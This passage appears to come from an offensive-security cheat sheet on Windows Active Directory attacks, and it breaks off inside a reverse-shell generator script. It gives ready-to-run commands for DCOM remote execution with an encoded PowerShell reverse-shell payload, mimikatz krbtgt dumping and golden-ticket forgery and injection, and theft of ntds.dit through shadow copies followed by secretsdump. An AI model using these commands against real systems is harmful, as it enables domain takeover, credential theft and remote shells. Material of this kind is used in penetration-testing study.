 ### DCOM

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

### Golden Ticket

1. Get the krbtgt hash

```powershell
.\mimikatz.exe
privilege::debug
#below are some ways
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::dcsync /user:krbtgt

kerberos::purge #removes any exisiting tickets

#sample command
kerberos::golden /user:sathvik /domain:evilcorp.com /sid:S-1-5-21-510558963-1698214355-4094250843 /krbtgt:4b4412bbe7b3a88f5b0537ac0d2bf296 /ticket:golden

#Saved with name "golden" here, there are other options to check as well
```

1. Obtaining access!

```powershell
mimikatz.exe #no need for highest privileges
kerberos::ptt golden
misc::cmd #we're accessing cmd
```

### Shadow Copies

```powershell
vshadow.exe -nw -p C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
##Windows Powershell payload encrypt </br>
<a href="https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
">Gihhub Link</a>
<a href="https://discord.com/channels/780824470113615893/1087927556604432424/1271916461442728098"> Discord Chat</a>
```powershell 
#!/usr/bin/env python3
#
# generate reverse powershell cmdline with base64 encoded args
#

import sys
import base64

def help():
```